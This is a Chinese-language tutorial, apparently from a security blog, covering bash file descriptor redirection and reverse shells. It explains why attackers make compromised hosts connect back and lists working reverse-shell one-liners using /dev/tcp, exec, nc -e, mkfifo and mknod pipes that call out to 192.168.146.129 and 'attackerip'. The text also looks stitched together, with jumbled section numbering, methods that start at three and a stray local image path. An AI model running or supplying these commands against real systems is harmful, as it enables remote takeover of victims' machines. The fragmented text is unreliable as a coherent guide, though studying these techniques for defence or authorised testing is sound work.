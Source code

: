 ### **4.文件描述符的复制**

格式： [n]<&[m] / [n]>&[m] **(这里所有字符之间不要有空格)**

说明：

1）这里两个**都是将文件描述符 n 复制到 m** ，两者的区别是，前者是以只读的形式打开，后者是以写的形式打开

**因此 0<&1 和 0>&1 是完全等价的（读/写方式打开对其没有任何影响）**

2）这里的& 目的是为了区分数字名字的文件和文件描述符，如果没有& 系统会认为是将文件描述符重定向到了一个数字作为文件名的文件，而不是一个文件描述符

### 5.exec 绑定重定向**

格式：exec [n] </> file/[n]

上面的输入输出重定向将输入和输出绑定文件或者设备以后只对当前的那条指令有效，如果需要接下来的指令都支持的话就需要使用 exec 指令

### **重点：**

格式： [n]<>word

说明：以读写方式打开word指代的文件，并将n重定向到该文件。如果n不指定的话，默认为标准输入。

![1580918960873](C:\Users\Paul C\AppData\Roaming\Typora\typora-user-images\1580918960873.png)



## **0X01 什么是反弹shell**

reverse shell，就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

## **0X02 为什么要反弹shell**

通常用于被控端因防火墙受限、权限不足、端口被占用等情形

假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面，web服务，ssh，telnet等等，都是正向连接。那么什么情况下正向连接不太好用了呢？

1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。

2.它的ip会动态改变，你不能持续控制。

3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。

4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知，所以建立一个服务端，让恶意程序主动连接，才是上策。

那么反弹就很好理解了， 攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

**4. >&、&>**

这个符号作用就是混合输出（错误、正确输出都输出到一个地方）

```
bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
等价于
bash -i > /dev/tcp/192.168.146.129/2333 0>&1 2>&1
```

### **3.方法三**

```
exec 5<>/dev/tcp/192.168.146.129/2333;cat <&5|while read line;do $line >&5 2>&1;done
```

```
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

### **4.方法四**

nc 如果安装了正确的版本（存在-e 选项就能直接反弹shell）

```
nc -e /bin/sh 192.168.146.129 2333
```

但是如果是没有-e 选项是不是就不能实现了呢？当然不是，我们可以向下面这样

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
```

**简单的解释：**

mkfifo 命令首先创建了一个管道，cat 将管道里面的内容输出传递给/bin/sh，sh会执行管道里的命令并将标准输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路

类似的命令：

```
mknod backpipe p; nc 192.168.146.129 2333 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```